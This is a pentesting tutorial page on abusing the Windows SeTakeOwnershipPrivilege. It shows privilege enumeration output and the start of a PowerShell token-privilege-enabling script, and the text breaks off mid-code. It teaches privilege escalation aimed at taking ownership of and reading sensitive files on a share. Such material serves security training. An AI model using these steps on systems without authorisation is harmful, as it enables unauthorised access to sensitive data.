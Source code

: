 ```yaml
---
title: SeTakeOwnershipPrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeTakeOwnershipPrivilege
---
```

# 🅾️ SeTakeOwnershipPrivilege

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor.

While it is rare to encounter a standard user account with this privilege, we may encounter a service account.

We may  find ourselves in a scenario in an Active Directory environment where we can assign this right to a specific user that we can control and leverage it to read a sensitive file on a file share.

```powershell-session
whoami /priv
```

With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, `Remote Code Execution` (`RCE`) or `Denial-of-Service` (DOS).

Output:

```powershell-session
Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```



**1.** Let's enable the permission. We will use the [EnableAllTokenPrivs.ps1 script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1):

```
## All Credit goes to Lee Holmes (@Lee_Holmes on twitter).  I found the code here https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/
$definition = @'
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;

namespace Set_TokenPermission
{
    public class SetTokenPriv
    {
        [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
        internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
        ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
        [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
```